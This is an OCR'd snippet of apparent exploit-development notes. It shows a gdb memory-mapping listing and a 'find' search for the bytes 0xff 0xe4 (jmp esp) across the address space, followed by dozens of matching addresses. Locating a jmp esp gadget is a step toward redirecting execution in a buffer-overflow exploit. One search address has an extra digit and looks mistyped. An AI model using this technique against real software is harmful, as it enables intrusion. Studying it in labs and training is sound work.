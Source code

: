 ``` 
	0xf7fd4000 0xf7fd6000     0x2000        0x0 [vdso]
	0xf7fd6000 0xf7ffc000    0x26000        0x0 /lib32/ld-2.27.so
	0xf7ffc000 0xf7ffd000     0x1000    0x25000 /lib32/ld-2.27.so
	0xf7ffd000 0xf7ffe000     0x1000    0x26000 /lib32/ld-2.27.so
	0xfffdd000 0xffffe000    0x21000        0x0 [stack]
			^
			end of heap (go above one, in this case 0xf7ffe000, if it returns an error)
			
(gdb)         

##we now have to grab the ENTIRE heap
##search from the start of the heap to the end of the heap


>> find /b 0xf7dde2000, 0xffffe000, 0xff, 0xe4		#last two fields will always be the same, 0xff is jump, 0xe4 is ESP

0xf7de4b59
0xf7f598ab
0xf7f655fb
0xf7f6560f
0xf7f65aeb
0xf7f65aff
0xf7f65d6f
0xf7f65f97
0xf7f660cf
0xf7f66343
0xf7f66497
0xf7f665cf
0xf7f66777
0xf7f669ef
0xf7f672eb
0xf7f6749b
0xf7f67533
0xf7f67633
0xf7f67b3b
0xf7f67b8b
0xf7f67cdb
0xf7f68033
0xf7f68203
0xf7f68293
0xf7f686db
0xf7f687a3
0xf7f68843
0xf7f68ecb
0xf7f68ee3
0xf7f68f9b
0xf7f69043
0xf7f693eb
0xf7f6963b
0xf7f6970b
0xf7f69733
0xf7f697bb
0xf7f69853
0xf7f6a56b
0xf7f6a633
0xf7f6aa0b
0xf7f6ac3b
0xf7f6accb
0xf7f6ad43
0xf7f6adab
0xf7f6b41b
0xf7f6b593
```